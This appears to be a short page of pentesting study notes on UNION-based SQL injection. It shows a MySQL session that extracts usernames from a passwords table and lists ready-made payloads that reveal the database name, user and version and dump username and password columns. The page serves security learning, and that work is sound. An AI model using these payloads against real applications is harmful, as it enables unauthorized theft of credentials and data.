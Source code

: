 # UNION Based SQL Injection





## Recap

UNION clauses allow for an additional SQL statement. It's always worth testing for this type of injection. WE MUST FILL ADDITIONAL COLUMNS WITH JUNK DATA.

```shell-session
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```



### Examples

```sql
%' UNION SELECT database(), user(), @@version, null, null -- //
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```sql
' UNION SELECT null, null, database(), user(), @@version  -- //
```

```sql
' UNION SELECT null, username, password, description, null FROM users -- //
```

> \
>
